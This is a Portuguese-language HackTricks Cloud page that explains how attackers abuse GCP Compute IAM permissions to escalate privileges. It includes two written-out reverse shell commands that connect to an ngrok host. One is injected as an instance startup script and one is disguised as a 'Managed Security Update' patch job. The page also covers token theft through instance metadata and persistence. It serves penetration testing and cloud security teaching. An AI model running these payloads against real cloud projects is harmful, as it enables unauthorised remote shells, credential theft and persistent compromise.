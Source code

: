 # GCP - Compute Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Compute

Para mais informações sobre Compute e VPC (rede) no GCP, confira:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Observe que para realizar todos os ataques de escalonamento de privilégios que requerem modificar os metadados da instância (como adicionar novos usuários e chaves SSH) é **necessário que você tenha permissões `actAs` sobre a SA anexada à instância**, mesmo que a SA já esteja anexada!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Com essa permissão, você pode **modificar** as informações de **metadados** de uma **instância** e alterar as **chaves autorizadas de um usuário**, ou **criar** um **novo usuário com permissões sudo**. Portanto, você poderá executar via SSH em qualquer instância de VM e roubar a Conta de Serviço do GCP com a qual a Instância está sendo executada.\
Limitações:

* Observe que as Contas de Serviço do GCP executando em instâncias de VM por padrão têm um **escopo muito limitado**
* Você precisará ser **capaz de contatar o servidor SSH** para fazer login

Para mais informações sobre como explorar essa permissão, confira:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Você também pode realizar esse ataque adicionando um novo script de inicialização e reiniciando a instância:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Esta permissão dá os **mesmos privilégios que a permissão anterior**, mas sobre instâncias específicas em vez de um projeto inteiro. Os **mesmos exploits e limitações da seção anterior se aplicam**.

### `compute.instances.setIamPolicy`

Esse tipo de permissão permitirá que você **conceda a si mesmo um papel com as permissões anteriores** e escale privilégios abusando delas.

### **`compute.instances.osLogin`**

Se **OSLogin estiver habilitado na instância**, com esta permissão você pode apenas executar **`gcloud compute ssh [INSTANCE]`** e conectar-se à instância. Você **não terá privilégios de root** dentro da instância.

{% hint style="success" %}
Para fazer login com sucesso com esta permissão dentro da instância VM, você precisa ter a permissão `iam.serviceAccounts.actAs` sobre a SA anexada à VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Se **OSLogin estiver habilitado na instância**, com esta permissão você pode apenas executar **`gcloud compute ssh [INSTANCE]`** e conectar-se à instância. Você terá **privilégios de root** dentro da instância.

{% hint style="success" %}
Para fazer login com sucesso com esta permissão dentro da instância VM, você precisa ter a permissão `iam.serviceAccounts.actAs` sobre a SA anexada à VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

É possível **criar uma máquina virtual com uma Conta de Serviço atribuída e roubar o token** da conta de serviço acessando os metadados para escalar privilégios para ela.

O script de exploit para este método pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se você tiver as permissões **`osconfig.patchDeployments.create`** ou **`osconfig.patchJobs.exec`**, você pode criar um [**trabalho de patch ou implantação**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Isso permitirá que você se mova lateralmente no ambiente e ganhe execução de código em todas as instâncias de computação dentro de um projeto.

Observe que, no momento, você **não precisa da permissão `actAs`** sobre a SA anexada à instância.

Se você quiser explorar isso manualmente, precisará criar um [**trabalho de patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ou** [**implantação**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Para um trabalho de patch execute:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Para implantar uma implantação de patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
A ferramenta [patchy](https://github.com/rek7/patchy) poderia ter sido usada no passado para explorar essa má configuração (mas agora não está funcionando).

**Um atacante também poderia abusar disso para persistência.**

### `compute.machineImages.setIamPolicy`

**Conceda a si mesmo permissões extras** para a imagem de computação.

### `compute.snapshots.setIamPolicy`

**Conceda a si mesmo permissões extras** para um snapshot de disco.

### `compute.disks.setIamPolicy`

**Conceda a si mesmo permissões extras** para um disco.

### Bypass Access Scopes

Seguindo este link, você encontrará algumas [**ideias para tentar contornar os escopos de acesso**](../).

### Escalação de Privilégios Local na Instância GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referências

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
